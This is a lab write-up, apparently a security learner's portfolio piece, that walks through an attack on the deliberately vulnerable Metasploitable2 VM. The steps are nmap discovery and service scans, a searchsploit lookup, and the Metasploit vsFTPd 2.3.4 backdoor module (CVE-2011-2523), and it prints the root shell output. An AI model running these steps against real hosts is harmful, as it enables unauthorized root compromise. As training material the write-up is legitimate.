# 🧨 Attack Simulation #1 – FTP Enumeration on Metasploitable2

> Tags: Enumeration, FTP Exploitation, Metasploit, CVE-2011-2523, Reverse Shell

---

## 🎯 Objective
The goal of this simulation is to perform **initial enumeration** against a known vulnerable machine (Metasploitable2) within the internal lab network. This forms the foundation of red team activity by identifying services, open ports, and potential attack vectors.

---

## 🧰 Target
- **IP Address:** `192.168.1.155`
- **Machine:** Metasploitable2
- **Role:** Intentionally vulnerable Linux target

---

## 🔍 Phase 1: Host Discovery with Nmap

### 🔧 Command
```bash
nmap -sn 192.168.1.0/24
```

### 🔎 What It Does
- `nmap`: Network scanning tool
- `-sn`: Ping scan (no port scan)
- `192.168.1.0/24`: Scan all 256 IPs in the subnet to find live hosts

This command performs an **ARP ping sweep** across the lab network to detect which machines are active. It identifies live hosts by sending ICMP echo requests and ARP probes, allowing us to map out the environment.

### 🧠 Why It's Important
- Establishes a list of IPs in use
- Confirms the target machine (Metasploitable2) is powered on and reachable
- Lays groundwork for targeted enumeration

### ✅ Output Highlights
- Found Metasploitable2 at `192.168.1.155`
- Identified the Proxmox host and other VMs (Windows, Kali, etc.)



*Figure 1: Performing a Ping Scan*

---

## 📦 Phase 2: Full Port Scan (TCP)

### 🔧 Command
```bash
nmap -Pn -T4 -p- -v 192.168.1.155
```

### 🔎 What It Does
- `-Pn`: Disables host discovery (skips the ping check)
- `-T4`: Aggressive timing for faster scanning (T0 being the slowest(Stealthy) and T5 is Fastest(Aggresive))
- `-p-`: Scan **all 65535 TCP ports**
- `-v`: Verbose output

This command performs a **stealth SYN scan** over all ports on the target machine. We use this to uncover hidden or non-standard services that could be potential attack surfaces.

### 🧠 Why It's Important
- Default scans only check top 1000 ports — this ensures complete coverage
- Finds services that could be overlooked by standard enumeration
- First real step in identifying vulnerabilities

### ✅ Output Highlights
- Found many open ports, including: 
  - `21` (FTP)
  - `22` (SSH)
  - `23` (Telnet)
  - `80` (HTTP)
  - `3306` (MySQL)
  - and more



*Figure 2: Open Ports*



*Figure 3: Port Services*

---

## 🧠 Phase 3: Service and Script Enumeration

### 🔧 Command
```bash
nmap -sV -sC 192.168.1.155
```

### 🔎 What It Does
- `-sV`: Attempts to determine the **version** of services running on open ports  
- `-sC`: Runs Nmap's **default scripts** (e.g., banner grabbing, vuln checks, SSL cert inspection)

This is a balanced scan combining **useful script automation** and **service versioning** without the full overhead of `-A`. It’s faster and often safer on real-world networks, but in labs we use it for insight before running more aggressive scans.

### 🧠 Why It's Important
- Helps identify low-hanging fruit: outdated software, weak configurations
- Default scripts may reveal:
  - Anonymous FTP access
  - Misconfigured SMB shares
  - Default credentials
- Adds more context to the open ports we discovered earlier

### ✅ Output Highlights
- **FTP (Port 21)**:
  - `vsFTPd 2.3.4` detected — a version known for remote code execution vulnerability (CVE-2011-2523)
  - Anonymous login allowed (`ftp-anon`)
- **SSH (Port 22)**:
  - Running `OpenSSH 4.7p1 Debian 8ubuntu1` — deprecated and potentially vulnerable
- **Telnet (Port 23)**:
  - Open — insecure and deprecated, may allow banner grabbing
- **SMTP (Port 25)**:
  - Postfix `smtpd` detected
- **HTTP (Port 80)**:
  - Apache 2.2.8 running on Ubuntu
- **Multiple weak or expired SSL certs**:
  - Detected on various services, indicating poor cryptographic hygiene
- **Samba/SMB ports**:
  - Open and responding — may allow null sessions or OS fingerprinting
- General output confirms Metasploitable2's hostname and multiple services with misconfigurations.







*Figures 4,5 and 6: Service versions working on open ports*

---

## 🧠 Phase 4: Aggressive Service & Version Detection

### 🔧 Command (Optional)
```bash
nmap -A 192.168.1.155
```

### 🔎 What It Does
- `-A`: Enables and includes **OS detection**, **version detection**, **script scanning**, and **traceroute**

This command initiates a deep scan to identify:
- The exact versions of services running
- The operating system and hostname
- Any banner information or misconfigured protocols

### 🧠 Why It's Important
- Helps assess vulnerability (e.g., outdated vsFTPd, vulnerable Apache)
- Reveals anonymous FTP login permissions
- Often uncovers outdated SSL certs, insecure cipher suites, etc.

### ✅ Output Highlights
- `vsFTPd 2.3.4` running on port 21
- Detected **anonymous login** allowed (FTP misconfiguration)
- Services running outdated versions (Apache 2.2.8, MySQL 5.0.51a, etc.)








*Figures 7,8,9 and 10: Aggressive Scan Results*

---

## 🚀 Phase 5: Vulnerability Research

### 🔧 Command
```bash
searchsploit vsftpd 2.3.4
```

### 🔎 What It Does
- `searchsploit`: A CLI utility to search Exploit-DB for public exploits.
- Used to search for known vulnerabilities related to `vsFTPd 2.3.4`, the service version found earlier on port 21.

### 🧠 Why It's Important
- Confirms if the identified service has a known exploit.
- Gives us access to publicly available proof-of-concept (PoC) exploits or compatible Metasploit modules.
- Helps determine exploitability based on version fingerprints.

### ✅ Output Highlights
- Found: **vsFTPd 2.3.4 - Backdoor Command Execution (CVE-2011-2523)**
- Also confirmed the presence of an exploit module:
  ```
  exploit/unix/ftp/vsftpd_234_backdoor
  ```



*Figure 11: Searchsploit result showing the vsFTPd backdoor exploit*

---

## 💣 Phase 6: Exploitation with Metasploit

At this point, we’ve identified that the `vsFTPd 2.3.4` service running on the target (Metasploitable2) is vulnerable to a known backdoor exploit. Now, we’ll use the **Metasploit Framework** to exploit that vulnerability and gain a shell on the target system.

### 🔧 What is Metasploit?

Metasploit is a powerful **penetration testing framework** that includes a vast library of exploits, payloads, and tools for automating attacks. We’ll use it to:

1. Load the specific exploit for `vsftpd 2.3.4`
2. Set the target IP address
3. Launch the attack
4. Get a shell (remote access) if successful

---

### 🧬 Step-by-Step Breakdown

#### 🔹 Step 1: Launch Metasploit
```bash
msfconsole
```
- This opens the **Metasploit CLI interface**.
- You’ll see a banner and a prompt that starts with `msf6 >`.



*Figure 12: msfconsole*

#### 🔹 Step 2: Load the Exploit Module
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
- `use` tells Metasploit which **exploit module** to load.
- This specific module targets the **backdoor in vsFTPd 2.3.4** that was identified earlier.

#### 🔹 Step 3: Set the Target IP Address
```bash
set RHOSTS 192.168.1.155
```
- `RHOSTS` means "Remote Hosts" — here, you’re specifying the IP address of the target machine.

#### 🔹 Step 4: Run the Exploit
```bash
run
```
- This launches the exploit. If it succeeds, the target opens a **reverse shell** back to you.



*Figure 13: Executing commands to gain backdoor access*

---

## ✅ Phase 7: Successful Shell Access

### 🔎 What Happened
- Metasploit successfully triggered the malicious backdoor in `vsFTPd 2.3.4`.
- It returned a shell bound to a high port.
- Confirmed interaction by running:
**Commands:**
```bash
whoami
id
uname -a
hostname
```
**Output:**
```bash
root
uid=0(root) gid=0(root)
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
metasploitable
```

This proves that **remote code execution (RCE)** was achieved, marking the completion of our first red team simulation.



*Figures 14: Reverse shell access*

---

## 🧠 Final Takeaways

- Exploitation was made possible through careful enumeration and version fingerprinting.
- This simulation reflects a full attack chain: **Discovery → Enumeration → Vulnerability Research → Exploitation → Shell Access**.
- Successfully demonstrates a **critical vulnerability exploit (CVE-2011-2523)** and validates one **reverse shell** in the lab.

---